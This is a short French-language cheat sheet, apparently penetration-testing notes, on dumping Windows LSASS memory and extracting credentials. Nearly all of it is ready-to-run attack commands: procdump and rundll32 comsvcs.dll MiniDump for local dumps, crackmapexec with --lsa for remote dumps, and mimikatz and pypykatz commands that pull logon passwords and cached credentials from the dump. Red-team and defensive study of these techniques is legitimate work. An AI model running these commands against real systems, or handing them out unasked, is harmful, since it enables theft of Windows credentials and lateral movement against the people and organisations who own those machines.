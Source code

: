 ```yaml
---
public: true
---
```


## DUMP de LSASS

## Localement
### Génération d'un dump via le gestionnaire de tâches

Bouton droit sur  le processus > Créer un fichier dump

Le fichier est créé dans le dossier %TEMP%

### Via Procdump.exe (sysinternals)

```shell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

### Rundll32.exe & Comsvcs.dll
- Trouver le pid de lsass :
	- `tasklist /svc`
	- `Get-Process lsass`
- Créer le dump (pid = 672) :
	- `rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full`

## A distance

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --lsa
```

## Extraction d'informations d'identification

```
# depuis windows dans mimikatz : (ne touche qu'au dump, pas au precessus)
sekurlsa::minidump lsass.dmp
sekurlsa::logonPasswords

# depuis linux
pypykatz lsa minidump /home/peter/Documents/lsass.dmp
```

Extractions des mots de passe en cache (permettant de se connecter sans connectivité réseau)

```shell
lsadump::cache
```
